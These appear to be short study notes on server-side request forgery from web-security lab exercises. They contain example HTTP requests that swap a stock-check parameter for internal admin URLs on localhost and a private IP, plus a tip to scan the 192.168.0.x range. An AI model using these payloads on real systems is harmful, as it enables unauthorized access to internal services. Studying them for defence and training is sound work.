 # SSRF attacks against the server itself
In contast to the CSRF we access the some pages of the internal website bypassing client side
Example: 

* Usually we get the stockAPI in body, but we just might change this to an admin url

POST /product/stock HTTP/1.1
Host: ac1d1f9e1f0e1ac480111d2a008800cd.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ac1d1f9e1f0e1ac480111d2a008800cd.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Origin: https://ac1d1f9e1f0e1ac480111d2a008800cd.web-security-academy.net
Content-Length: 107
Connection: close
Cookie: session=9mPUQjbu8oDIWg9Hxexc9mPvamTZfsDG

stockApi=http://localhost/admin

# SSRF attacks against other back-end systems
where the application server is able to interact with other back-end systems that are not directly reachable by users. These systems often have non-routable private IP addresses

Example: 
* administrative interface at the back-end URL https://192.168.0.68/admin

POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.0.68/admin 

* to find out the IP you might interate 192.168.0.x